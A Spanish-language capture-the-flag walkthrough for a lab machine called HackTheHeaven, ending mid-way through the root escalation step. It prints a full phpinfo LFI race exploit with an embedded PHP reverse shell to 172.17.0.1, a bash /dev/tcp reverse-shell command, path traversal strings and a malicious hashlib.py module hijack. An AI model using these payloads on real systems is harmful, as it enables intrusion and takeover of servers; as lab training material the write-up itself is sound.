--- 

# Descripcion

HackTheHeaven es una máquina Linux de dificultad dificil, que pone a prueba nuestros conocimientos de enumeración web, explotación de vulnerabilidades y escalada de privilegios. Comenzaremos identificando una vulnerabilidad de Path Traversal que, combinada con una técnica de PHPInfo, nos permitirá obtener una reverse shell como www-data. A partir de ahí, aprovecharemos credenciales encontradas durante la enumeración y una configuración insegura de Python para movernos entre usuarios. Finalmente, explotaremos los permisos de sudo asociados a xargs para conseguir acceso como root.

---


> [!WARNING]
> Al iniciar la maquina en el fichero `autodeploy.sh` hay que añadir este parámetro en la linea 68 `--sysctl net.ipv6.conf.all.disable_ipv6=1` sino en cierto paso al efectuar una peticion nos dará acceso denegado. La linea quedaría así:

```
docker run -d --sysctl net.ipv6.conf.all.disable_ipv6=1 --name $CONTAINER_NAME $IMAGE_NAME...
```

# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 172.17.0.2

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-10 01:58 +0100
Initiating ARP Ping Scan at 01:58
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 01:58, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 01:58
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 01:58, 0.40s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 12:3A:90:5C:94:1A (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

> Una vez identificados los puertos abiertos, realizamos un segundo escaneo utilizando scripts predeterminados y detección de versiones para obtener más información sobre los servicios expuestos.

```bash
$ nmap -p80 -sC -sV 172.17.0.2

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-10 01:59 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Bienvenido a HackTheHeaven
MAC Address: 12:3A:90:5C:94:1A (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds

```

## Web

> También utilizamos `WhatWeb` para identificar las tecnologías empleadas por el servidor web.

```bash
$ whatweb http://172.17.0.2

http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Bienvenido a HackTheHeaven]
```

> Accedemos al servicio web desde el navegador para comprobar qué contenido encontramos.



> Encontramos un mensaje sencillo en la página principal. Vamos a realizar una búsqueda de directorios y archivos utilizando `Gobuster` para descubrir posibles recursos adicionales.

```bash
$ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -t 100 -x html,php,js,txt
```



> Si accedemos a `info.php`, encontramos información interesante sobre la configuración del servidor.

> Podemos observar que el servidor web se está ejecutando bajo el usuario `www-data`.



> También podemos identificar la ruta del directorio raíz donde se almacenan los archivos de la aplicación web.



> Además, encontramos información sobre la ubicación de los archivos de `log` de `Apache`.



> Si accedemos a `index.html`, encontramos el mismo mensaje que aparecía inicialmente. Sin embargo, al entrar en `idol.html`, descubrimos una página diferente.


> Navegando por esta página encontramos el siguiente botón.


> Al pulsarlo, nos redirige a otro archivo llamado `clouddev3lopmentfile.php`. Si accedemos a él, encontramos el siguiente mensaje.



# Shell como www-data

## LFI

> El servidor devuelve un error indicando que no se ha especificado ningún archivo para incluir. Esto nos hace pensar que el archivo espera recibir un parámetro mediante el cual podamos indicar qué recurso queremos cargar.

> Probamos con parámetros habituales como `archivo` o `file`, pero no obtenemos ningún resultado. Por tanto, vamos a realizar un `fuzzing` de parámetros utilizando `FFUF`.

```bash
$ ffuf -u "http://172.17.0.2/clouddev3lopmentfile.php/?FUZZ=index.html" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -fs 53
```



> El parámetro `filename` es el único que devuelve una respuesta diferente al resto. Vamos a probarlo desde el navegador intentando acceder al archivo `/etc/passwd`.



> En este caso, el servidor parece reconocer el archivo, pero no nos permite visualizar su contenido. Vamos a probar con un archivo de la propia aplicación web, como `index.html`.

```text
/index.html
```



> Esta vez conseguimos obtener el código fuente de `index.html`, lo que confirma que podemos utilizar el parámetro `filename` para leer archivos del servidor.

> Si probamos a acceder a los archivos de `log` de `Apache`, obtenemos la siguiente respuesta.



> El mensaje nos indica que este camino no parece estar relacionado con un posible envenenamiento de logs, por lo que vamos a descartar esta vía de explotación.

> A continuación, intentamos obtener el código fuente del propio archivo `/clouddev3lopmentfile.php`.



> Sin embargo, el servidor devuelve un error HTTP 500 y no conseguimos visualizar su contenido. Vamos a probar otra aproximación: realizar un `Path Traversal` para intentar acceder a archivos del sistema.

> Comenzamos intentando acceder nuevamente a `/etc/passwd`, utilizando una secuencia de barras y puntos que permita sortear las restricciones de la ruta.

```text
//....//....//....//....//etc//paswd
```



> Esta vez conseguimos leer correctamente el archivo `/etc/passwd`.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
s4vitar:x:1001:1001:s4vitar,189,,:/home/s4vitar:/bin/bash
xerosec:x:1002:1002:xerosec,,,:/home/xerosec:/bin/bash
mario:x:1003:1003:mario,,,:/home/mario:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
```

> Encontramos tres usuarios con una shell `bash` habilitada: `s4vitar`, `xerosec` y `mario`.

> Ahora que tenemos acceso a la lectura de archivos del sistema, vamos a buscar posibles métodos para conseguir una ejecución remota de comandos (RCE).

## LFI to RCE

> Durante la enumeración encontramos una técnica que permite aprovechar una página `phpinfo()` expuesta para conseguir ejecutar código mediante una vulnerabilidad de tipo LFI.

> Uno de los requisitos para utilizar esta técnica es que la opción `file_uploads` esté configurada como `On`. Podemos comprobarlo directamente en la salida de `phpinfo()`.



> Para llevar a cabo la explotación vamos a utilizar un script de Python. En este caso, partimos de este código, aunque tendremos que realizar algunas modificaciones para adaptarlo a nuestra máquina.

```text
https://github.com/mikaelkall/HackingAllTheThings/blob/master/lfi/phpinfolfi.py
```

> El script original fue desarrollado por `insomniasec.com`. Sin embargo, el enlace habitual parece estar caído, por lo que utilizaremos una versión que otro usuario ha subido a `GitHub` con algunas modificaciones.

> Antes de ejecutarlo, tendremos que adaptar un par de variables. En primer lugar, modificaremos la petición `POST` para que apunte a nuestro archivo `info.php`. También tendremos que modificar la petición `GET` encargada de realizar el LFI, indicando la ruta de nuestro archivo vulnerable y el parámetro `filename` que hemos descubierto anteriormente.



> En la parte superior del script, dentro de `PAYLOAD`, configuramos nuestra dirección IP y el puerto en el que estaremos escuchando para recibir la conexión inversa.

- **Script modificado**

```python
#!/usr/bin/python2
# https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.1';  
$port = 7777;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {

	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script
    LFIREQ="""GET /clouddev3lopmentfile.php?filename=....//....//....//....//....//....//%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:

        i = d.index("[tmp_name] =&gt")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    print "Don't forget to modify the LFI URL"
    main()
```

- **Ponemos un listener con Netcat**

Una vez configurado el script, nos ponemos a la escucha en el puerto que hemos indicado en el payload.

```bash
$ nc -nvlp 7777
```

- **Ejecutamos el script**

Ahora ejecutamos el script utilizando `Python 2`, ya que está escrito para esta versión.

```bash
$ python2 test.py 172.17.0.2 80 20
```

> Conseguimos establecer una conexión inversa y obtenemos una shell con el usuario `www-data`.



# Shell como xerosec

## Enumeracion

> Recordemos que anteriormente habíamos identificado tres usuarios con una shell `bash` habilitada. Vamos a comprobar el contenido del directorio `/home` y los permisos de sus respectivos directorios.

```bash
$ ls -la /home

total 24
drwxr-xr-x 1 root    root    4096 May  7  2024 .
drwxr-xr-x 1 root    root    4096 Nov 10 01:58 ..
-rw-r--r-- 1 xerosec xerosec  183 May  7  2024 NotaParaMario.txt
drwxr-x--- 1 mario   mario   4096 May  7  2024 mario
drwxr-x--- 2 s4vitar s4vitar 4096 Apr 30  2024 s4vitar
drwxr-x--- 3 xerosec xerosec 4096 Apr 30  2024 xerosec
```

> Encontramos un archivo llamado `NotaParaMario.txt`. Vamos a comprobar su contenido.

```text
Hola Mario!
Acuerdate de revisar el script conjunto que estamos desarrollando parar la comunidad! 
Lo he movido al directorio tmp

megustaelfallout

Borra esta nota cuando la leas.
```

> Probamos `megustaelfallout` como contraseña de los usuarios que hemos identificado y conseguimos acceder como `xerosec`.



# Shell como mario

## Python Hijacking

> Una vez dentro como `xerosec`, comenzamos a enumerar los permisos del usuario. Encontramos que podemos ejecutar un script de Python como el usuario `mario` sin necesidad de introducir una contraseña.

```bash
$ sudo -l

Matching Defaults entries for xerosec on 3051a50e127c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xerosec may run the following commands on 3051a50e127c:
    (mario) NOPASSWD: /usr/bin/python3 /tmp/script.py
```

> Vamos a comprobar el contenido del archivo `/tmp/script.py`.

```python
import hashlib

if __name__ == '__main__':
    cadena = input("Introduce la cadena: ")
    hash_md5 = hashlib.md5(cadena.encode()).hexdigest()
    print("El hash MD5 de la cadena es:", hash_md5)
```

> Observamos que el script importa el módulo `hashlib` utilizando una importación normal, sin especificar una ruta absoluta.

> En Python, cuando se realiza una importación, el intérprete busca los módulos siguiendo el orden establecido en `sys.path`. En este caso, el directorio del script `/tmp` se encuentra al principio de la ruta de búsqueda, por lo que podemos aprovecharlo para realizar un **secuestro de módulos (Module Hijacking)**.

> Si creamos un archivo malicioso llamado `hashlib.py` en `/tmp`, Python podrá cargar nuestro módulo en lugar del módulo legítimo. De esta forma, conseguiremos ejecutar comandos con los privilegios del usuario que ejecuta el script.

- **Creamos el módulo malicioso `hashlib.py`**

```python
import os
os.system("bash -p")
```


> Ahora utilizamos los permisos de `sudo` que hemos identificado anteriormente para ejecutar el script como `mario`.

```bash
$ sudo -u mario /usr/bin/python3 /tmp/script.py
```


> Conseguimos obtener una shell como el usuario `mario`.

# Shell como s4vitar

## Enumeracion

> Vamos a comprobar qué archivos encontramos en el directorio personal de `mario`.

```bash
$ ls -la
total 28
drwxr-x--- 1 mario mario 4096 May  7  2024 .
drwxr-xr-x 1 root  root  4096 May  7  2024 ..
-rw-r--r-- 1 mario mario  220 Apr 30  2024 .bash_logout
-rw-r--r-- 1 mario mario 3771 Apr 30  2024 .bashrc
-rw-r--r-- 1 mario mario  807 Apr 30  2024 .profile
-rw-r--r-- 1 root  root   103 May  7  2024 ServerDeS4vitar.txt
```

> Encontramos un archivo llamado `ServerDeS4vitar.txt`. Vamos a comprobar su contenido.

```text
Acordarme de usar la sintaxis index.php?cmds4vi=id para ejecutar comandos en el server http de S4vitar
```

> El archivo nos proporciona información sobre un servidor HTTP asociado al usuario `s4vitar`, indicando que permite ejecutar comandos mediante el parámetro `cmds4vi`.

> Vamos a comprobar los procesos que se encuentran en ejecución para localizar este servicio.

```bash
$ ps faux
```



> Observamos que el servidor está escuchando en el puerto `9999`. Vamos a probar la sintaxis que aparecía en el archivo de texto para comprobar si realmente podemos ejecutar comandos.

```bash
$ curl 127.0.0.1:9999/index.php?cmds4vi=id

uid=1001(s4vitar) gid=1001(s4vitar) groups=1001(s4vitar),100(users)
```

> Conseguimos ejecutar comandos de forma remota a través del parámetro `cmds4vi`, obteniendo ejecución de comandos con los privilegios del usuario `s4vitar`.

> Vamos a aprovechar esta funcionalidad para obtener una shell inversa.


> Primero, nos ponemos a la escucha en el puerto `8888`.

```bash
nc -nvlp 8888
```

> A continuación, enviamos una petición al servidor local con el comando necesario para establecer la conexión inversa.

```bash
$ curl 127.0.0.1:9999/index.php?cmds4vi=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F8888%200%3E%261%22
```

> Conseguimos establecer la conexión y obtenemos una shell como `s4vitar`.



# Shell como root

## Sudoers - xargs

> Una vez dentro como `s4vitar`, vamos a comprobar los permisos de `sudo` para identificar posibles vías de escalada de privilegios.

```bash
$ sudo -l
Matching Defaults entries for s4vitar on c0179f8066f8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
